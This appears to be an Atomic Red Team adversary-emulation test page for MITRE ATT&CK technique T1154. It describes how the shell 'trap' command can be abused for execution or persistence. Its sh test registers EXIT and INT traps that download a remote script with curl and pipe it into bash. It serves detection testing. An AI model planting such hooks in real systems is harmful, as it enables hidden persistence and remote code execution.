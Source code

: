 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Trap](#atomic-test-1---trap)


<br/>

## Atomic Test #1 - Trap
After exiting the shell, the script will download and execute.

After sending a keyboard interrupt (CTRL+C) the script will download and execute.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Run it with `sh`!
```
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
exit
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```
<br/>
